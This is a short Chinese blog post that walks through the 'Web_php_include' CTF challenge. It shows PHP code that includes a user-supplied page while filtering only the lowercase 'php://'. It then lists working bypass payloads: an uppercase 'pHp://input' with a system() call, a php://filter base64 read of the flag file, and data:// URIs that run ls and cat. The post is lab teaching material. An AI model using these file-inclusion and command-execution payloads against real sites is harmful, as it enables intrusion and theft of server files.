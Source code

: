```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      Web_php_include    # 标题 
subtitle:    攻防世界   #副标题
date:       2020-07-06         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - CTF
  
---
```


访问:

    <?php
    	show_source(__FILE__);
    	echo $_GET['hello'];
   		$page=$_GET['page'];
   		while (strstr($page, "php://")) {
    		$page=str_replace("php://", "", $page);
    	}
   		 include($page);
    ?>


`strstr(str1,str2)` 函数用于判断字符串str2是否是str1的子串。如果是，则该函数返回 str1字符串从 str2第一次出现的位置开始到 str1结尾的字符串；否则，返回NULL。

它区分大小写，所以可以大小写绕过。

![UCp2e1.png](https://s1.ax1x.com/2020/07/06/UCp2e1.png)

	?page=pHp://input 

	<?php system("cat 'fl4gisisish3r3.php'"); ?>


![UCpOTP.png](https://s1.ax1x.com/2020/07/06/UCpOTP.png)

知道文件名也可可用php:filter协议读取flag
`?page=pHp://filter/read=convert.base64-encode/resource=fl4gisisish3r3.php`

也可以使用data://协议

`?page=data://text/plain,<?php system(ls); ?>`

![UCPsSS.png](https://s1.ax1x.com/2020/07/06/UCPsSS.png)

`?page=data://text/plain,<?php system('cat "fl4gisisish3r3.php"'); ?>`

![UCPWoq.png](https://s1.ax1x.com/2020/07/06/UCPWoq.png)

各协议可以看[这里](https://segmentfault.com/a/1190000018991087)
